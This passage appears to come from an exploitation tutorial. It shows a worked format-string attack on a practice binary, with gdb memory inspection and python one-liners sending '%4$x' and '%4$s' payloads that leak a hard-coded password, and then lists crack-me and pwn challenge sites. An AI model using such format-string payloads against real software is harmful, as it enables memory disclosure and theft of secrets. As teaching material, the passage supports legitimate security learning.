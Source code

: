 ```
gdb
info variables

File fsx.c:
3:	const char password[23];

pwndbg> x/x &password
0x56557008 <password>:	0x73696854

\x54\x68\x69\x73
python -c 'print("\x54\x68\x69\x73"+".%4$x")' | ./fs2
Insert a string: This.73696854

\x08\x70\x55\x56
python -c 'print("\x08\x70\x55\x56"+".%4$s")' | ./fs2
Insert a string:pUV.This1sm1Str0ngPassw0rd

```

## 4 Additional challenges available in the web

This repository contains several crack-me challenges (akarev), nonetheless, the distinction between challenges
that only require reversing and the ones that require tampering (pwnchallenges) is not always thatevident

```
https://crackmes.one/search
```
Root me also contains a section dedicated to crack-me challenges, they range from basic to medium-level ones.

```
https://www.root-me.org/en/Challenges/Cracking/
```
WeChalls is another website that contains interesting challenges in increasing order of difficulty:

```
https://w3challs.com/challenges/list/reversing
https://w3challs.com/challenges/list/pwn
```
This site, which also has additional “wargames”, proposes Narnia to learn basic exploitation:

```
https://overthewire.org/wargames/narnia/
```
This tutorial also shows how to use format string attacks to overwrite the GOT and tamper with applications:

```
https://axcheron.github.io/exploit-101-format-strings/
```
If you want to find more advanced (pwn) challenges (and very well done tutorials)

```
https://pwnable.kr/
```
This website introduces to ROP attacks:
